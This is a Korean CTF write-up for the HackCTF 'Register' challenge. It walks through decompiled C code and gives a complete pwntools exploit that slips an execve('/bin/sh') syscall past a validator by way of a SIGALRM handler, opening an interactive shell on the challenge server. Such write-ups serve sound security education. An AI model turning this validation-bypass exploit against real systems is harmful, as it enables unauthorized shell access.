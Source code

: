 ```yaml
---
title: "[HackCTF]Register"
date: 2020-1-27
tags: [HackCTF]
categories: [HackCTF]
---
```


메인에서는 alarm함수로 5초후 시그널 보낸다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  alarm(5u);
  setvbuf(stdout, 0LL, 2, 0LL);
  build();
}
```

메인에서 실행되는 build함수는 siglarm가 발생하면 handler로 처리해준다. 

```c
void __noreturn build()
{
  __int64 v0; // [rsp+0h] [rbp-40h]
  __int64 v1; // [rsp+8h] [rbp-38h]
  __int64 v2; // [rsp+10h] [rbp-30h]
  __int64 v3; // [rsp+18h] [rbp-28h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  __int64 v5; // [rsp+28h] [rbp-18h]
  __int64 v6; // [rsp+30h] [rbp-10h]
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  signal(14, handler);
  while ( 1 )
  {
    do
    {
      get_obj(&v0);
      obj = v0;
      qword_6010A8 = v1;
      qword_6010B0 = v2;
      qword_6010B8 = v3;
      qword_6010C0 = v4;
      qword_6010C8 = v5;
      qword_6010D0 = v6;
    }
    while ( validate_syscall_obj(v0) );
    raise(14);
  }
}
```

handler 내부를 보면 `exec_syscall_obj` 를 실행시켜주는데 우리가 입력한 값들이 각각 레지스터에 맞게 들어가 syscall을 호출해준다.

```c
__int64 __fastcall exec_syscall_obj(_QWORD *a1)
{
  _QWORD *v1; // rbx
  __int64 result; // rax
  __int64 v3; // rdi
  __int64 v4; // rsi
  __int64 v5; // rdx
  __int64 v6; // rcx
  __int64 v7; // r8
  __int64 v8; // r9

  v1 = a1;
  result = *a1;
  v3 = a1[1];
  v4 = v1[2];
  v5 = v1[3];
  v6 = v1[4];
  v7 = v1[5];
  v8 = v1[6];
  __asm { syscall; LINUX - }
  return result;
}
```

`validate_syscall_obj` 함수에서는 rax 레지스터 check를 해준다.

```c
__int64 __fastcall validate_syscall_obj(signed __int64 a1)
{
  unsigned int v2; // [rsp+14h] [rbp-4h]

  if ( a1 == 2 )
  {
    v2 = 0;
  }
  else if ( a1 > 2 )
  {
    if ( a1 == 3 )
    {
      v2 = 0;
    }
    else
    {
      if ( a1 != 60 )
        return 1;
      v2 = 0;
    }
  }
  else if ( a1 )
  {
    if ( a1 != 1 )
      return 1;
    v2 = 0;
  }
  else
  {
    v2 = 0;
  }
  return v2;
}
```

bss영역은 레지스터들이 사용되는 공간이라 data영역을 사용했다.

syscall 59는 필터링되어있어서 sleep() 줘서 sigalrm 떠서 handler 실행시키게 했다.

read(0,data,10) -> execve('/bin/sh\x00',0,0)

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
e = ELF('./register')
# p = process('./register')
p = remote('ctf.j0n9hyun.xyz',3026)
data = 0x0000000000601068

def chain(rax,rdi,rsi,rdx,rcx,r8,r9):
	p.sendlineafter(':',str(rax))
	p.sendlineafter(':',str(rdi))
	p.sendlineafter(':',str(rsi))
	p.sendlineafter(':',str(rdx))
	p.sendlineafter(':',str(rcx))
	p.sendlineafter(':',str(r8))
	p.sendlineafter(':',str(r9))

chain(0,0,data,10,0,0,0)
p.send('/bin/sh\x00')
chain(59,data,0,0,0,0,0)
sleep(5)
p.interactive()
```

